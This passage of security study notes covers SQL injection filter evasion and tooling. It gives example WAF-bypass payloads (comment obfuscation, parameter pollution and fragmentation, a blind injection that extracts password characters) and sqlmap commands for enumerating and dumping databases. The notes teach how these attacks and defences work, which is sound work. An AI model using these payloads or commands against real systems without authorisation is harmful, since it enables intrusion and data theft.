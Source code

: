 | Case Variation | `select * from users`  | `SeLeCt * FrOM UsErs` |
| Null byte | `UNION SELECT..` | `%00' UNION SELECT..` |
| Declare Variables | `UNION Select Password` | `; declare @sqlvar nvarchar(70); set @myVAR = N'UNI' + N'ON' + N' SELECT' + N'Password'); EXEC(@sqlvar)` |

### OWASP categories

- [SQL injection bypassing WAF | OWASP](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)
- **Normalization**
  - Obfuscating with e.g. comments
  - E.g. WAF blocks `/?id=1+union+select+1,2,3/*`
    - Attacker injects: `/?id=1+un/**/ion+sel/**/ect+1,2,3--`
    - Request passes WAF, SQL becomes `SELECT * from table where id =1 union select 1,2,3--`
- **HTTP Parameter Pollution (HPP)**
  - Injects delimiting characters into query strings
  - E.g. WAF blocks `/?id=1+union+select+1,2,3/*`
    - Attacker injects: `/?id=1&id=+&id=union=&id=+select+&1,2,3`
    - Test e.g. [google.com/search?q=hello&q=world](https://www.google.com/search?q=hello&q=world)
- **HTTP Parameter Fragmentation (HPF)**
  - Exploits SQL is built using more than parameter in backend
    - `Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']);`
  - E.g. WAF blocks `/?a=1+union+select+1,2/*`
    - Attacker injects: `/?a=1+union/*&b=*/select+1,2`
- **Blind SQL Injection**
  - Replacing WAF signatures with their synonyms
  - E.g. WAF blocks `/?id=1+OR+0x50=0x50`
    - Attacker injects `/?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1) ))=74`
- **Signature bypass**
  - E.g. WAF blocks is `/?id=1+OR+1=1`
    - Attacker injects `/?id=1+OR+0x50=0x50`

## SQL injection tools

- **[`sqlmap`](http://sqlmap.org/)**
  - Automatic SQL injection and database takeover tool
  - Requires session that can be retrieved through e.g. running [Burp Suite](https://portswigger.net/burp) as proxy.
  - Run e.g. `sqlmap -u https://cloudarchitecture.io/?id=3&Submit=Submit --cookie 'PHPSESSID=63j6; security:low'`
    - Outputs e.g.
      - `GET parameter id appears to be MySQL >= 5.0.12 AND time-based blind injectable`
      - `GET parameter id is 'Generic UNION query (NULL) - 1 to 20 columns' injectable`
    - `--dbs` parameter gets database names e.g. `mysql, phpmyadmin...`
    - `-D <database-name> --tables` parameters lists tables from given tabase name..
    - `-T <table-name> --columns` gives colums names
    - `-C <comma-separated-column-names> --dump` to get columns
  - Can also crack hashes (not as fast as `hashcat`)
- [jSQL Injection](https://github.com/ron190/jsql-injection)
- Older tools:
  - [SQL Power Injector](http://www.sqlpowerinjector.com/)
  - [The Mole](https://github.com/tiankonguse/themole)
  - [OWASP SQLiX](https://wiki.owasp.org/index.php/Category:OWASP_SQLiX_Project) tool
- Mobile tools
  - [sqlmapchik](https://github.com/muodov/sqlmapchik) for Android - GUI for sqlmap
  - [Andro Hackbar](https://andro-hackbar.en.aptoide.com/app) for Android
- See also [SQL injection detection tools](#sql-injection-detection-tools)
